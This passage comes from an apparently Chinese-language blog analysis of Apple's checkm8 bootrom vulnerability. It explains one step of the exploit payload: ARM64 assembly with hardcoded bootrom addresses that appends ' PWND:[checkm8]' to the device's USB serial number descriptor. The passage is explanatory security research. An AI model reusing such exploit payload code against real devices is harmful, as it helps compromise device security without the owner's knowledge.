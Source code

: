 1. ”     PWND:[checkm8]“

首先找到序列号字符串的结束符，再把" PWND:[checkm8]"字符串拷贝到原始序列号末尾，得到新的序列号字符串。

调用usb_create_string_descriptor(gUSBSerialNumber)生成新的序列号描述符。

```c
.text
.pool
.set gUSBSerialNumber,             0x180083CF8
.set usb_create_string_descriptor, 0x10000D150
.set gUSBSRNMStringDescriptor,     0x1800805DA

 	LDR  X0, =gUSBSerialNumber
find_zero_loop:
  ADD  X0, X0, #1
  LDRB W1, [X0]
  CBNZ W1, find_zero_loop //找到序列号的结束符\x00

  ADR  X1, PWND_STRING
  LDP  X2, X3, [X1]
  STP  X2, X3, [X0]       //把" PWND:[checkm8]"字符串拷贝到原始序列号末尾

  LDR  X0, =gUSBSerialNumber
  LDR  X1, =usb_create_string_descriptor
  BLR  X1         //usb_create_string_descriptor(gUSBSerialNumber)，返回下标

  LDR  X1, =gUSBSRNMStringDescriptor //usb_core_device_descriptor.iSerialNumber
  STRB W0, [X1]   //把新的序列号描述符下标保存到usb_core_device_descriptor.iSerialNumber字段
									//以上我们就能在设备管理器中看到iphone设备的序列号末尾被加上了" PWND:[checkm8]"

PWND_STRING:
.asciz " PWND:[checkm8]"
```

usb_create_string_descriptor函数把生成的序列号描述符保存在usb_core_string_descriptor全局数组中，返回数组下标。

![截屏2025-03-11 20.17.25.png](/assets/posts/2025-05-25-深入分析苹果设备-checkm8-漏洞/%E6%88%AA%E5%B1%8F2025-03-11_20.17.25.png)
